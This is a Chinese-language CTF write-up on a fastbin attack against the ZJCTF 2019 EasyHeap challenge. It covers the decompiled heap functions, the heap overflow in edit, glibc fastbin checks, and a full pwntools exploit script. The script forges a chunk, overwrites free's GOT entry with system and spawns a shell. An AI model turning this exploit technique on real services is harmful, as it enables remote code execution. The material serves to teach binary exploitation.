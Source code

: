 ```yaml
---
title: 常见fastbin attack套路学习
date: 2020-04-25 00:06:30
tags:
---
```

今天做了一个我认为很经典的题目，应该算是对fastbin attack有了更深刻的理解了，之前一直是模模糊糊的概念，不大懂  <!--more-->
```  
本文引用了其他师傅博客的原文，如有侵权请联系我删除  
```  
直接上题目，在题目里穿插知识点  
## [ZJCTF 2019]EasyHeap  
分析代码  
存在如下功能：  
```  
1.add
2.edit
3.free
4.exit
```  
main函数不贴了，长得和hitcontrainning的magicheap几乎一样  
```C++  
unsigned __int64 create_heap()
{
  signed int i; // [rsp+4h] [rbp-1Ch]
  size_t size; // [rsp+8h] [rbp-18h]
  char buf; // [rsp+10h] [rbp-10h]
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  for ( i = 0; i <= 9; ++i )
  {
    if ( !heaparray[i] )
    {
      printf("Size of Heap : ");
      read(0, &buf, 8uLL);
      size = atoi(&buf);
      heaparray[i] = malloc(size);
      if ( !heaparray[i] )
      {
        puts("Allocate Error");
        exit(2);
      }
      printf("Content of heap:", &buf);
      read_input(heaparray[i], size);
      puts("SuccessFul");
      return __readfsqword(0x28u) ^ v4;
    }
  }
  return __readfsqword(0x28u) ^ v4;
}
```  
```C++  
unsigned __int64 delete_heap()
{
  int v1; // [rsp+Ch] [rbp-14h]
  char buf; // [rsp+10h] [rbp-10h]
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("Index :");
  read(0, &buf, 4uLL);
  v1 = atoi(&buf);
  if ( v1 < 0 || v1 > 9 )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( heaparray[v1] )
  {
    free(heaparray[v1]);
    heaparray[v1] = 0LL;
    puts("Done !");
  }
  else
  {
    puts("No such heap !");
  }
  return __readfsqword(0x28u) ^ v3;
}
```  
```C++  
unsigned __int64 edit_heap()
{
  size_t v0; // ST08_8
  int v2; // [rsp+4h] [rbp-1Ch]
  char buf; // [rsp+10h] [rbp-10h]
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  printf("Index :");
  read(0, &buf, 4uLL);
  v2 = atoi(&buf);
  if ( v2 < 0 || v2 > 9 )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( heaparray[v2] )
  {
    printf("Size of Heap : ", &buf);
    read(0, &buf, 8uLL);
    v0 = atoi(&buf);
    printf("Content of heap : ", &buf);
    read_input(heaparray[v2], v0);
    puts("Done !");
  }
  else
  {
    puts("No such heap !");
  }
  return __readfsqword(0x28u) ^ v4;
}
```  
heaparray是在栈上的，起始地址是0x6020e0，意思是堆指针都存在BSS段上  
edit函数存在任意字节溢出  
free之后指针置零，不存在UAF  
没有show函数，不能leak libc，但是程序中存在system函数，我们只要想办法把free_got改成system_plt，然后free一个已经写入了/bin/sh的chunk，就能getshell了  
那我们要改got表里面的内容，就需要有一块指针为free_got的chunk  
chunk指针都是存在bss段上的，我们只要将bss段上对应位置的chunk指针改成free_got就行  
这里用到的攻击方式是house of spirit，利用fastbin和堆溢出，把在fastbin链尾的堆块的fd指针（正常情况下是0x0）改写为我们精心构造的fake chunk的地址，注意这个地址要在0x6020e0前面找，这样我们malloc到fake chunk之后，（malloc到fake chunk的意思就是，add一块以我们指定地址为chunk指针的chunk）通过edit就能向下覆写堆块指针。  
经过踩在巨人的肩膀上眺望，发现可以构造一个大概长这样的    
![](fk1.png)
```  
如果从fastbins中malloc一个freechunk时，glibc会做以下两个检测：

检测1：检测你要malloc的freechunk的大小是否在该chunk所在的fastbin链的大小尺寸范围内（例如：一个fastbin链所存储的chunk大小必须在0x30-0x40之间，但是你要申请的这个chunk却是0x50，那么就会程序就报错退出）
检测2：检测你这个freechunk的size成员的PREV_INUSE为是否为1，为1才可以通过检测


可以利用以下技巧：  

技巧①：我们malloc的时候，尽量malloc一个大小在0x70~0x80之间的堆块（因此malloc的参数要为0x60~0x70之间），因为这样我们的目标地址就会被放入0x70~0x80大小范围的fastbin链中，此时我们去构造堆块的时候，由于系统中0x7f这样的数值比较好找，所以能够构造0x7f这样的数值来跳过glibc的检测

技巧②：接着技巧①，如果此时我们没有数值为0x7f这样的地址来让我们构造，那么我们就需要使用借助unsortedbin attack了，利用unsortedbin attack向我们的目标地址处写入一个0x7f的数值
```  
引用自：https://blog.csdn.net/qq_41453285/article/details/99315504  
之前做过一个题，需要add两次add到想要的地址，这里也是一样的  
add之前，bins里长这样  
![](fk2.png)
然后add两次就能有一块以0x6020ad为指针的chunk了  
add到0x6020ad之后，那个地址大概长这样  
![](fk3.png)
然后我们从这个地址可控地址开始，也就是0x6020c0(0x6020ad+0x10(chunk头)+3)开始向下写，改掉chunk0的指针  
改掉之后，长这样  
![](fk5.png)
然后把chunk0的内容改成system_plt，就能达到改free_got的效果了  
![](fk6.png)
## exp  
```python  
#!/usr/bin/env python
#coding=utf-8
from pwn import*
from LibcSearcher import *
import sys
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
binary = './easyheap' 
local = 1
if local == 1:
    p=process(binary)
else:
    p=remote("node3.buuoj.cn",25249)
elf=ELF(binary)
libc=elf.libc
def add(size,content):
    p.recvuntil("choice :")
    p.sendline("1")
    p.recvuntil("Heap : ")
    p.sendline(str(size))
    p.recvuntil("heap:")
    p.send(content)
def edit(index,size,content):
    p.recvuntil("choice :")
    p.sendline("2")
    p.recvuntil("Index :")
    p.sendline(str(index))
    p.recvuntil("Heap : ")
    p.sendline(str(size))
    p.recvuntil("heap : ")
    p.send(content)
def free(index):
    p.recvuntil("choice :")
    p.sendline("3")
    p.recvuntil("Index :")
    p.sendline(str(index))
def exp():
    add(0x68,"aaaa") # 0
    add(0x68,"bbbb") # 1
    add(0x68,"cccc") # 2
    free(2)
    payload = "/bin/sh\x00" + "a"*0x60 + p64(0x71) + p64(0x6020b0-3)
    edit(1,len(payload),payload)
    add(0x68,"fuck") # 2
    payload = "a"*3 + p64(0)*4 + p64(elf.got['free'])
    add(0x68,payload)
    payload = p64(elf.plt['system'])
    edit(0,len(payload),payload)
    free(1)
    gdb.attach(p)
    
    p.interactive()
exp()
```  
这个题可谓经典之至，让我加深了对fastbin attack的理解，检测机制，学习了house of spirit  
参考链接：  
https://blog.csdn.net/BengDouLove/article/details/105391153  
https://blog.csdn.net/qq_41453285/article/details/99315504  
https://blog.csdn.net/qq_41453285/article/details/99329694